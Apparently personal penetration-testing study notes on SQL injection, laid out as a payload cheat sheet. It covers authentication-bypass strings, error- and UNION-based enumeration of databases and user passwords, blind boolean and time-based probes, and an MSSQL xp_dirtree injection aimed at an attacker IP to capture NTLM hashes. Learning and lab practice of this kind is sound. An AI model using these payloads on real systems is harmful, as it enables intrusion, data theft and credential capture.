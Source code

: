 Broad overview:
```
SQLi Types
	In-band
		Union based
		error based
	Blind
		Boolean Based
		Time Based
	Out-Of-Band
```

On input forms (example: login page), they are often performing sql expressions in the backend

Example of a login form POST
	user: admin
	pass: admin
`SELECT * FROM users WHERE user='admin' AND password = 'admin';
	this is occurring in the background
	the AND makes it where user=admin and pass=admin must both exist in the database to be TRUE and authenticate

SQLi is abusing this.

we use ', --, OR, UNION, etc... to interrupt the sql query. if not properly sanitized, we can be BAD

[_sqlmap_](http://sqlmap.org/)
	automated tool to abuse SQLi
	no allowed on OSCP

___
#### [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)

## Discovery:
Test EVERY input form on web app (each POST form)
Error Based
	'
		look for errors
		if successful, try auth bypass on login forms and enumerate

## Auth Bypass:
```
Use with login forms to bypass authentication.

Still requires CORRECT user (it basically disregards the password)
```

Auth Bypass with OR operator
	`<user>' or '1'='1

Auth Bypass with comments
	`<user>'--

Some more examples
	`' OR 1=1 -- //
	
## Enumerate:
#### In-band:
Start here
Error based:
	`' or 1=1 in (select @@version) -- //
		retrieve version
	`' or 1=1 in (SELECT * FROM users) -- //
		retrieve all from users
		might return errors (too many columns)
	`' or 1=1 in (SELECT password FROM users) -- //`
		1 column only
	`' of 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
		further specifics

Union based:
```
Requirements

UNION query must include same numer of columns as the original

data types need to be compatible between each column
```

Verify exact number of columns
	`'ORDER BY 1-- //`
		might not work
	`'UNION select 1,2,3,4 -- //`
		add/subtract until you get output
		-1 from that and that is the total columns
			ie: 1,2,3 = 2 columns

Enumerate database
	`%' UNION SELECT database(), user(), @@version, null, null -- //
		replace columns as you want
		% is required to stay in 
	`' UNION SELECT null, null, database(), user(), @@version  -- //`
		can omit %

Explore another table
	`' UNION SELECT null, username, password, description, null FROM users -- //

Verify if other tables are present in the current database
	enumerate information schema
	`' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //


#### Blind SQLi:
```
If you see this, realistically you would need a script of some sort to exploit it...

ie: sqlmap
```
Boolean SQLi
	example app takes user parameter as input
	`http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
		will return values only if the user is present in the database
		we could enumerate the entire database for other usernames

Time-based SQLi
	`http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
		if user is present, the app will HANG for about 3 seconds

## MSSQL
If MSSQL is present as well, you can try a SQLi that will try to authenticate to you and capture their Net-NTLMv2 hash (See [[MSSQL]] for background info)

Query
```bash
sudo responder -I tun0

# Add this you your injection point
; EXEC master ..xp_dirtree '\\<attack_ip>\test'; --

# Capture and crack hash (see MSSQL page)
```


___
#### NOTE:
```
if sqli probing gives an ERROR, then you perform a command but get invalid creds or no return, that does NOT mean SQLi is necessarily failing.
	EXAMPLE
	'
		leads to error
	' or 1=1 in (select @@version) -- //
		error
	'select @@version; -- //
		invalid creds
		this means it may be accepting it
```

